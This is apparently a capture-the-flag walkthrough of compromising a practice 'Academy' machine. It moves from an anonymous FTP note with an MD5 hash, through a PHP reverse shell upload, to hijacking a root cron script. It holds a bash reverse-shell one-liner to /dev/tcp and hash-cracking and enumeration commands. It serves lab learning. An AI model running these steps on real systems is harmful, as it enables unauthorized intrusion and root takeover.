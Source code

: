 
After the scan we found 3 open ports
Note: For more details look into "Rust and Nmap Scans"

- Port 21 vsftpd 3.0.3
- Port 22 OpenSSH 7.9p1
- Port 80 Apache httpd 2.4.38 ((Debian))

**Anonymous FTP  allowed.**

- In this ftp login we found a note
  
```
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta

``` 

So, we got student registration number and password hash

Cracking hash I got: cd73502828457d15655bbd7a63fb0bc8:student (I've used hashes.com) 
for the cracking we can use the commandline
Find the hash: hash-identifier cd73502828457d15655bbd7a63fb0bc8  (I came to know that this hash is MD5)
(The hash is md5). Save this hash into a file. I save it as hash.txt.
Now use hashcrack: hashcrack -m 0 hash.txt path/to/wordlist  (Note: In hashcrack the 0 is the mode for MD5)
- hashcrack -m <mode for hash> <hash file that need to be cracked> <wordlist>

Now, to know the exact location of the login page for students. I performed a gobuster directory scan. For more details look into the gobuster.txt.

Other tools:
	- dirb http://<ip address>
	- ffuf -w /usr/share/wordlst/dirbuster/directory-list-2.3-medium.txt:FUZZ http://<ip address>/FUZZ

```
Successfully logged inn
```
Now, after successful login I've observed there's a my-profile page where we can upload an image. (But instead of image I uploaded an php reverse shell).
Note: before uploading the php reverse shell open a netcat listener.

Now, after the successful reverse shell. I thought of privilege escalation but we have limited access.

So, I executed "linpeas.sh"

I downloaded linpeas and opened a python3 http.server
- Command: wget http://<attacker Ip>:<port>/linpeas.sh

After, executing linpeas.sh I found an user name "grimmie" and his password "My_V3ryS3cur3_P4ss".

Performed ssh : ssh grimmie@<target ip> 

Found a file backup.sh
Info: while performing linpeas.sh I didn't find any cronjobs in the machine.

So, in order to check any automated files running on the system I downloaded pspy64 tool. This tools helps to monitor all the processes which are running on the system without root access.

So, downloaded pspy from "https://github.com/DominicBreuker/pspy?tab=readme-ov-file"

I found backup.sh was running for every minute with root privilege.

So, I changed the content of backup.sh and added the one linear bash script for reverse chell.

""' `bash -c 'exec bash -i &>/dev/tcp/192.168.1.12/9999 <&1' '""


Finally got the root access and captured the flag.

%% congratz you rooted this box !
    Loks like this CMS isn't so secure...
    I hope you enjoyed it.
    If you have any issue please let us know in the course discord.
    Happy hacking !
%%









